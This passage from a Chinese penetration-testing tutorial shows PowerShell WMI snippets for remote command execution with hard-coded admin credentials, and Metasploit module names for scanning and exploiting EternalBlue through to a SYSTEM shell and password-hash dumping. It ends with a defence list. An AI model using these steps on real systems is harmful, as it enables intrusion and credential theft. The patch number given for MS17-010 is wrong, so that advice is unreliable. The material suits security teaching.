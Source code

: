 已经被加查杀名单了。

#### Invoke-WmiCommand

在PowerSploit中，主要通过Powershell来调用WMI，本质还是利用WMI。

```powershell
$User = "hackme\administrator"
$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user,$password
$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName 192.168.100.205
$Remote.PayloadOutput
```

#### Invoke-WMIMethod

这是Powershell自带的Cmdlet，可以在远程系统中执行命令和指定程序。

```powershell
$User = "hackme\administrator"
$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user,$password
Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.100.205" -Credential $Cred
```

但是这不会回显。

### 永恒之蓝漏洞分析与防范

漏洞编号为MS17-01，该漏洞危害性极大，可以攻击70%的Windows服务器。

MSF中已经继承了该漏洞的测试模块：

```ruby
auxiliary/scanner/smb/smb_ms17_010
```

输入对应的参数进行测试即可。

值得注意的是，可以进行大规模测试，只需要设置RHOSTS为一个IP地址段即可，例如`192.168.1.0/24`。

该漏洞的利用可以使用MSF的模块：

```powershell
exploit/windows/smb/ms17_010_eternalblue
```

提供合适的参数，并且指定Payload即可开始攻击，如果一切正常将得到一个反弹Shell。

该漏洞攻击反弹的Shell默认就是`NT AUTHORITY\SYSTEM`权限。

拿到Meterpreter后可以使用`hashdump`命令抓取当前系统的用户散列值。

其余操作可以看官方文档。

防御措施如下：

* 禁用SMB协议
* 安装补丁KB2919355
* 使用防火墙阻止445端口的连接
* 不要随意打开陌生文件
* 安装杀毒软件，即使更新病毒库
